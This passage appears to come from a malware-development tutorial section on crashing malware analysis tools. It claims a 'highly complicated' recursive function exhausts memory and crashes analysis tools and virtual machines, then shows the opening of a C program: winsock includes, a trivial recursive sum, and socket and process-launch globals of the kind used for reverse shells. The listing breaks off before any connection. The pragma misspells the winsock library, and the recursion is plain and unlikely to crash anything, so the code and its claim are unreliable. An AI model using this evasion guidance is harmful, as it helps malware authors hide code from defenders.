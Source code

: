 ![junk1](assets/images/maldev/7/junk3.png)

## Crashing Malware Analysis tools *

Various techniques can be used such as using highly complicated recursive functions that make tools run out of memory and crash as well as the virtual machine.

### Example

```c 
#include <winsock2.h>
#include <windows.h>
#include <stdio.h>
#pragma comment(lib, "w2_32")

// Define a highly complicated recursive function
int recFunction(int n) {
  // Base case
  if (n <= 0) {
    return 0;
  }
  // Recursive call
  return n + recFunction(n - 1);
}

WSADATA socketData;
SOCKET mainSocket;
struct sockaddr_in connectionAddress;
STARTUPINFO startupInfo;
PROCESS_INFORMATION processInfo;

```